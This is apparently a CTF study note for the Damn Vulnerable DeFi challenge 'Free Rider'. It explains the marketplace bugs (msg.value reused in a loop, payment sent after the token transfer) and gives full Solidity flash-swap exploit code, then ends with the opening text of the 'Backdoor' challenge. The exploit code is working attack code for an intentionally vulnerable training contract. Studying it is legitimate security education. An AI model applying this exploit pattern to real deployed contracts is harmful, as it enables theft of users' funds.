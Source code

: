   ```ad-info
- the first one is we can  buy all the NFT by just 1 nft price as the buyMany function is using msg.value in the loop
- the second one is  the contract transfer  the nft before paying the seller as 
```payable(token.ownerOf(tokenId)).sendValue(priceToPay);```
 which means the contract is paing the buyer as the token.ownerOf is updated before sending the payment 
 - to exploit we only need 15 ether  and we only have 0.5 ether so what we can do is take a flashloan from uniswapv2 
 - first take a flashloan from DVT <-> WETH
 - convert WETH to ETH 
 - call  FreeRiderNFTMarketplace.buymany with 15 ETH
 - transfer the NFT to the buyer each time 
 - after receiving the ether from buyer contract  convert 15 ETH + 0.3 % fee to the uniswapv2 DVT <-> WETH  pool
 ``` 
 ``` 
 function flashSwap(address _tokenBorrow, uint256 _amount) external {
address pair = IUniswapV2Factory(factory).getPair(_tokenBorrow, dvt);
require(pair != address(0), "!pair init");
address token0 = IUniswapV2Pair(pair).token0();
address token1 = IUniswapV2Pair(pair).token1();
uint256 amount0Out = _tokenBorrow == token0 ? _amount : 0;
uint256 amount1Out = _tokenBorrow == token1 ? _amount : 0;
bytes memory data = abi.encode(_tokenBorrow, _amount);
IUniswapV2Pair(pair).swap(amount0Out, amount1Out, address(this), data);
}
function uniswapV2Call(address sender,uint256 amount0,uint256 amount1,bytes calldata data) external override {
address token0 = IUniswapV2Pair(msg.sender).token0();
address token1 = IUniswapV2Pair(msg.sender).token1();
address pair = IUniswapV2Factory(factory).getPair(token0, token1);
require(msg.sender == pair, "!pair");
require(sender == address(this), "!sender");
(address tokenBorrow, uint256 amount) = abi.decode(data,(address, uint256));
uint256 fee = ((amount * 3) / 997) + 1;
uint256 amountToRepay = amount + fee;
uint256 currBal = IERC20(tokenBorrow).balanceOf(address(this));
tokenBorrow.functionCall(abi.encodeWithSignature("withdraw(uint256)", currBal));
uint256[] memory tokenIds = new uint256[](6);
for (uint256 i = 0; i < 6; i++) {
tokenIds[i] = i;
}
FreeRiderNFTMarketplace(buyerMarketplace).buyMany{value: 15 ether}(tokenIds);
for (uint256 i = 0; i < 6; i++) {
DamnValuableNFT(nft).safeTransferFrom(address(this), buyer, i);}
(bool success,) = weth.call{value: 15.1 ether}("");
require(success, "failed");
IERC20(tokenBorrow).transfer(pair, amountToRepay);

}```
```
```ad-note
title: # Challenge #11 - Backdoor
To incentivize the creation of more secure wallets in their team, someone has deployed a registry of [Gnosis Safe wallets](https://github.com/gnosis/safe-contracts/blob/v1.3.0/contracts/GnosisSafe.sol). When someone in the team deploys and registers a wallet, they will earn 10 DVT tokens.

To make sure everything is safe and sound, the registry tightly integrates with the legitimate [Gnosis Safe Proxy Factory](https://github.com/gnosis/safe-contracts/blob/v1.3.0/contracts/proxies/GnosisSafeProxyFactory.sol), and has some additional safety checks.

Currently there are four people registered as beneficiaries: Alice, Bob, Charlie and David. The registry has 40 DVT tokens in balance to be distributed among them.

```